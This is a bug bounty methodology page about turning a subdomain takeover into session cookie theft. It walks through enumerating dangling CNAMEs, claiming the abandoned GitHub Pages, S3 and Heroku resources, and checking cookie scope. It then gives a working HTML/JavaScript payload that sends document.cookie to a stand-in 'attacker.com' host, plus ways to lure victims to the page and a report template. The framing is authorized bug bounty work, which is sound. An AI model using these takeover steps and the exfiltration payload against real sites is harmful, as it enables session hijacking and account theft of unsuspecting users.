

> Source: https://bugbounty.info/Chains/Subdomain-Takeover-to-Session

# Subdomain Takeover to Cookie Theft

## Why This Chain Works

A subdomain takeover on its own is a medium. You can host phishing content on a legitimate-looking domain. That's real but limited. The critical escalation happens when the target sets cookies with `Domain=.target.com` or doesn't set the domain attribute at all (which defaults to the full host, BUT if the session cookie is scoped to `*.target.com` via explicit domain attribute, a takeover on any subdomain gives you cookie access). That transforms a takeover into a session hijack at scale.

Related: [Subdomain Enumeration](../Recon/Subdomain-Enumeration), [Session Management](../Attack-Surface/Web/Authentication/Session-Management)

---

## Attack Flow



---

## Step-by-Step

### 1. Find Dangling CNAMEs

I use a combination of amass, subfinder, and httpx, then pipe the subdomains through a takeover checker.

```bash
subfinder -d target.com -silent | tee subs.txt
amass enum -d target.com -o amass_subs.txt
cat subs.txt amass_subs.txt | sort -u | httpx -silent -status-code | tee live.txt
 
# Check for dangling CNAMEs
subjack -w subs.txt -t 100 -timeout 30 -ssl -c ~/tools/subjack/fingerprints.json
# or
nuclei -l subs.txt -t takeovers/
```

### 2. Identify the Service

When you find a subdomain returning a 404 or error from a third-party service, check the CNAME chain:

```bash
dig CNAME staging.target.com
# staging.target.com. 300 IN CNAME target-staging.github.io.
# target-staging.github.io. 300 IN A ...
```

If `target-staging.github.io` doesn't exist as a GitHub Pages site, you can claim it.

### 3. Common Takeover Targets and Claim Process

**GitHub Pages:**

```text
1. Create repo: github.com/yourhandle/target-staging (or whatever matches the CNAME)
2. Enable GitHub Pages on the repo
3. Add CNAME file with the subdomain: staging.target.com
4. Verify: curl staging.target.com returns your content
```

**AWS S3:**

```bash
# CNAME points to target-bucket.s3-website-us-east-1.amazonaws.com
# Create a bucket in us-east-1 named exactly "target-bucket"
aws s3 mb s3://target-bucket --region us-east-1
aws s3 website s3://target-bucket --index-document index.html
# Upload test content
echo "takeover proof" | aws s3 cp - s3://target-bucket/index.html --acl public-read
```

**Heroku:**

```bash
# CNAME points to target-app.herokuapp.com
heroku create target-app
# Add custom domain
heroku domains:add staging.target.com --app target-app
```

**Azure:**

```bash
# CNAME points to target.azurewebsites.net or target.blob.core.windows.net
# For blob: create storage account and container matching the name
# For App Service: create App Service with matching name
```

### 4. Check Cookie Scope

After confirming the takeover, check what cookies the main app sets:

```text
Set-Cookie: session=abc123; Domain=.target.com; Path=/; Secure; HttpOnly
```

Key things to check:

- `Domain=.target.com` (the dot prefix means all subdomains, your claimed subdomain is included)
- `HttpOnly` flag: if set, JavaScript CANNOT read this cookie via `document.cookie`. The theft fails.
- `Secure` flag: doesn't prevent reading from JS, only prevents sending over HTTP.
- `SameSite`: if `SameSite=Strict`, cross-site navigation won't send the cookie. But if the user navigates directly to your subdomain URL, SameSite doesn't protect against that.

If `HttpOnly` is set, session cookie theft via JS is blocked. But you can still:

- Host malicious content that looks legitimate (phishing)
- Bypass CSP (if `*.target.com` is allowed in `connect-src`)
- Abuse CORS policies that trust `*.target.com`
- Mount subdomain-based CSRF attacks

### 5. Cookie Theft Payload

If the session cookie is NOT HttpOnly and is scoped to `.target.com`:

```html
<!-- index.html on your claimed subdomain -->
<!DOCTYPE html>
<html>
<body>
<script>
// Grab all cookies accessible from this subdomain
var cookies = document.cookie;
// Exfil
new Image().src = 'https://attacker.com/log?c=' + encodeURIComponent(cookies) + '&url=' + encodeURIComponent(document.location.href);
 
// Or use fetch if CSP allows it
fetch('https://attacker.com/log', {
  method: 'POST',
  body: JSON.stringify({cookies: cookies, ts: Date.now()}),
  headers: {'Content-Type': 'application/json'}
});
</script>
<p>Loading...</p>
</body>
</html>
```

### 6. Deliver to Victim

The victim needs to visit your claimed subdomain while authenticated on the main app. Delivery options:

- Send a direct link (the subdomain looks legitimate)
- Embed it as an iframe or redirect on another page
- If you find an open redirect on the main domain, use that to redirect users to your subdomain
- Abuse any "invite" or "share" feature that generates links

---

## When HttpOnly Blocks Cookie Theft

Even with HttpOnly, document the takeover thoroughly and note the escalation potential:

- **CSP bypass:** If the app's CSP includes `script-src *.target.com`, you can load scripts from your subdomain into the main app (requires XSS or another injection point on the main domain).
- **CORS abuse:** If `Access-Control-Allow-Origin` trusts `*.target.com`, authenticated API requests can be made from your subdomain.
- **OAuth/SSO abuse:** If the subdomain is registered as an OAuth callback, it's a different chain entirely (see [Open Redirect to ATO](../Chains/Open-Redirect-to-ATO)).
- **Credential phishing:** Host a convincing login page. The URL is real.

---

## PoC Template for Report

```text
1. Subdomain: staging.target.com
2. DNS: dig CNAME staging.target.com returns target-staging.github.io
3. target-staging.github.io did not exist as a GitHub Pages site
4. Claimed via GitHub Pages on repo: github.com/bbproof/target-staging
5. staging.target.com now serves content from that repo (screenshot)
6. Cookie check: Set-Cookie: session=...; Domain=.target.com (no HttpOnly flag)
7. Hosted cookie-theft payload on staging.target.com/steal.html
8. Visited page while authenticated on target.com - cookie received at attacker.com
9. Replayed cookie on target.com/api/me - returns victim account details (screenshot)
```

---

## Reporting Notes

Always check the HttpOnly flag before claiming full session theft. If it's set, still report the takeover but be accurate about impact. A takeover with HttpOnly is a medium. Without HttpOnly plus domain-scoped cookie is a critical. Show the full chain: DNS evidence, claim, cookie inspection, theft payload, and replayed session.
